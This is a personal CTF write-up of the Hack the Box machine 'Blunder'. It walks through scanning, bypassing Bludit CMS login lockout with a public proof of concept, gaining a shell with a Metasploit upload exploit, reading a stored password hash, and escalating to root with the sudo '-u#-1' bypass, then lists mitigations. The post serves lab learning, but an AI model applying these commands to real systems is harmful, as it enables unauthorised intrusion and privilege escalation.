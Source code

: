 ```yaml
---
title: Hack the Box - Blunder
date: 2020-06-04 12:00:00 -0600
categories: [Hack the Box, Linux]
tags: [linux, ctf, htb]     # TAG names should always be lowercase
---
```


This is my guide to the HackTheBox Linux machine _Blunder_.

***

> These HTB writeups have been migrated from a standalone repository for ease of access. However, I wrote these to learn and can't attest to the accuracy of my thoughts. 
{: .prompt-warning }

![](/assets/img/posts/htb/06-2020/info.PNG)
_Task: Find [user.txt](#user-flag) and [root.txt](#root-flag)_

## Penetration Methodologies

__Scanning__

- nmap

__Enumeration__

- Webpage enumeration

- CMS login brute force

__Exploitation__

- CMS directory traversal attack

__Priv Esc__

- Sudo security bypass

## User Flag

First, let's  scan _Blunder_ with `nmap`.

- __sC__: Enable common scripts

- __sV__: version and service on the port

- __O__: remote OS detection using fingerprinting

```bash
# Nmap 7.80 scan initiated Tue Jun  2 16:50:18 2020 as: nmap -sC -sV -O -oA scan191 10.10.10.191
Nmap scan report for 10.10.10.191
Host is up (0.21s latency).
Not shown: 998 filtered ports
PORT   STATE  SERVICE VERSION
21/tcp closed ftp
80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Blunder
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Blunder | A blunder of interesting facts
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.26 - 2.6.35 (89%), OpenWrt Kamikaze 7.09 (Linux 2.6.22) (89%), Linux 3.16 - 4.6 (89%), Linux 2.6.32 - 3.13 (88%), Linux 3.3 (88%), Linux 2.6.23 - 2.6.38 (88%), Linux 2.6.31 - 2.6.32 (88%), Linux 2.6.32 (88%), Linux 2.6.32 - 2.6.39 (88%)
No exact OS matches for host (test conditions non-ideal).

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun  2 16:52:39 2020 -- 1 IP address (1 host up) scanned in 141.22 seconds
```

Two standard ports are open, 21, indicating FTP, and 80, which indicates a webpage.  

Additionally, doing a full port scan reveals no new ports. Let's go ahead and enumerate webpages with `gobuster`.

```bash
$ gobuster dir -u http://10.10.10.191 -w /usr/share/wordlists/dirb/common.txt -x .htm,.html,.php,.txt
```

Our scan reveals an admin page at `http://10.10.10.191/admin/`. This is most likely a CMS for the website, let's check it out.

![](/assets/img/posts/htb/06-2020/bludit-login.png)

We find a login page for the [Bludit CMS](https://www.bludit.com/). Unfortunately we don't have much to go off at the moment and a quick search reveals that there aren't any unauthenticated vulnerabilities for it.

We also find a todo file at `http://10.10.10.191/todo.txt`, which contains the fergus username, amongst other information. This username, however, fails to authenticate with some common passwords, and too many failed attempts actually locks us out, preventing further attempts.

Let's navigate to the main website and see what useful information we can find.

![](/assets/img/posts/htb/06-2020/roland.png)

The various webpages don't reveal any useful information, so let's just grab as many interesting words and names as we find and create a wordlist called `wordlist.txt` to attempt a brute force login with.

Since the Bludit CMS locks us out when we try a brute force, our earlier research indicates that a [proof-of-concept exploit](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) exists to by pass the lockout. Let's give it a shot.

First, we must edit the variables in the POC. Since the todo file mentions a fergus user, we'll try to brute force that account first.

```python
host = 'http://10.10.10.191'
login_url = host + '/admin/login'
username = 'fergus'
fname = 'wordlist.txt'
```

Let's run the POC and see if any words from the website were also used as a password, for some reason.

![](/assets/img/posts/htb/06-2020/poc.png)

Quickly, our POC returns valid credentials. RolandDeschain, an interesting typo in the passage above, happens to be the password for the user fergus.

Let's log in and check out the Bludit CMS.

![](/assets/img/posts/htb/06-2020/bludit-admin.png)

Success. Poking around doesn't reveal anything in and of itself, but our previous research showed that authenticated vulnerabilities exist for older versions of Bludit. Back on our dashboard, the version is displayed. In this particular scenario, the version is 3.9.2, which is vulnerable to a [directory traversal attack](https://www.exploit-db.com/exploits/47699).

We'll use the exploit provided on Metasploit.

```bash
$ sudo msfdb run
```

Once Metasploit is loaded, let's use the "bludit_upload_images_exec" exploit, set our variables, using our previously discovered valid credentials.

```bash
msf5 > use exploit/linux/http/bludit_upload_images_exec
msf5 > set BLUDITPASS RolandDeschain
msf5 > set BLUDITUSER fergus
msf5 > set TARGETURI /
```

Now, let's run the exploit.

![](/assets/img/posts/htb/06-2020/metasploit.png)

Success, we now have remote access to the box. Let's spawn a shell with Meterpreter, then upgrade it.

```bash
meterpeter > shell
$ python3 -c 'import pty;pty.spawn("/bin/bash");
```

It doesn't look like we have access to the first flag yet, but looking around, there appears to be a database file within the `bludit-3.10.0a` directory. Using `cat` to display the contents of `users.php`, we reveal the user hugo and a hashed password.

```bash
$ cd /var/www/bludit-3.10.0a/bl-content/databases
$ cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

Let's crack this password hash.

![](/assets/img/posts/htb/06-2020/cracked.png)

Back in our shell, we may now be able to change users to hugo, if they've reused passwords.

```bash
$ su hugo
Password: Password120
```

It worked. Now that we're hugo, let's grab the user flag.

![](/assets/img/posts/htb/06-2020/user-flag.png)

## Root Flag

Alright, let's see what privileges hugo has, maybe we can elevate our privileges. We'll run `sudo -l` first to see what special commands can be ran.

```bash
$ sudo -l
[...]
User hugo may run the following commands on blunder:
    (ALL, !root) /bin/bash
```

It looks like our user can run the binary `/bin/bash` as any user. By running a single command, we can open a shell as root. This exploit is better explained on [Exploit DB](https://www.exploit-db.com/exploits/47502).

```bash
$ sudo -u#-1 /bin/bash
```

We've elevated to root! Let's grab the last flag.

![](/assets/img/posts/htb/06-2020/root-flag.png)

***

## Mitigation

- Avoid having a CMS public-facing, unless absolutely necessary. If so, it should be updated regularly. Like this scenario showed, two vulnerabilities can be strung together to get remote code execution. Additionally, if the CMS is public facing, passwords should not only be complex, but also not in plain text on the website.

- Careful consideration should be taken when changing the defaults for a user's privileges. Whether it's the exploit used in this scenario, or something available on [GTFOBins](https://gtfobins.github.io/), a lot of routes become available for privilege escalation when privileges are modified or commands are altered to allow execution at a higher integrity.

## Final Thoughts

This was an interesting box. The password discovery was a bit weird. It seems that the idea was that the user was typing an entry to his website and typed the name "Roland Deschain" like his password, out of habit. Not really something I understood until I was able to build out a wordlist and brute force the CMS. I liked how SSH was not available, so shell access needed to be achieved through remote code execution vulnerabilities. Additionally, I don't typically like to use Metasploit in these CTFs but I had a hard time building out an exploit for the directory traversal attack and RCE, so I just spent some extra time learning how the Metasploit module worked. 
